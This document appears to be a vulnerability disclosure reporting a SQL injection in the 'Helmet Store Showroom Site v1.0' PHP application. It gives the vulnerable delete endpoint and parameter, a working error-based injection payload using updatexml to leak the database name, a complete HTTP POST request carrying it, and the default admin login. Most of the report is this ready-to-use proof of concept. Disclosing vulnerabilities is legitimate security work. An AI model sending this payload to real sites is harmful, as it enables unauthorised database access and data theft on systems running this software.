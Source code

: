 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: MAO-qi

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/classes/Users.php?f=delete

Vulnerability location: /hss/classes/Users.php?f=delete,id

dbname =hss_db,length=6

[+] Payload:  id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /hss/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/hss/admin/?page=user/list
Content-Length: 65
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/204070149-4093ed7e-4a20-40e4-8baa-fe5054180b32.png)
